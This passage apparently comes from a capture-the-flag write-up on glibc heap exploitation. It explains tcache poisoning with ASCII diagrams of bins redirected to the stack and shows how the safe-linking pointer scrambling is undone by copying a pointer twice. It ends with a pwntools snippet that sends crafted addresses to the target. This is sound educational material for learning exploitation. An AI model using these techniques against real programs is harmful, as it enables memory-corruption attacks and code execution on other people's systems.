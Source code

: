 ```
      +--------------+
      | tcache[0x20] |-------------\
      +--------------+             |
      | tcache[0x30] |             |
      +--------------+             |
      | tcache[0x40] |             |
      +--------------+             |
      | tcache[0x50] |             |
      +--------------+             |
  /-->| tcache[0x60] |-->STACK     |
  |   +--------------+             |
  |   | tcache[0x70] |             |
  |   +--------------+             |
  \---| tcache[0x80] |<------------/
      +--------------+
```

At this point, it might seem like we can successfully duplicate `tcache[0x60]` by malloc()'ing `tcache[0x80]`. This should return the pointer to `tcache[0x60]`, and pop it off the tcache, leaving `tcache[0x80]->next == tcache[0x60]` in `tcache[0x80]`:

```
      +--------------+              
      | tcache[0x60] |-->STACK      
      +--------------+              
      | tcache[0x70] |              
      +--------------+              
      | tcache[0x80] |-->STACK
      +--------------+
```
But, we're defeated by the pointer-scrambling scheme. malloc expects to read a scrambled pointer from `tcache[0x80]->next`, but the tcache heads are just regular pointers. When it tries to desecramble the stack pointer, we get garbage:

```
      +--------------+              
      | tcache[0x60] |-->STACK      
      +--------------+              
      | tcache[0x70] |              
      +--------------+              
      | tcache[0x80] |-->REVEAL_PTR(&tcache[0x80], STACK)
      +--------------+
```

Fortunately, pointer scrambling is its own inverse -- we can de-descramble the stack pointer by attempting to copy it a second time. So we set up a bunch of tcache entries pointing at `tcache[0x80]`

```python
p.send(b"38")
# write 80/a0/c0
p.send(p64(tcache_60_addr))
p.send(p64(0))
p.send(p64(tcache_80_addr))
p.send(p64(0))
p.send(p64(tcache_80_addr))
p.send(p64(0))
p.send(p64(tcache_80_addr))
p.send(p64(0))
p.send(p64(tcache_80_addr))
p.send(p64(0))
p.send(b"\n")
```
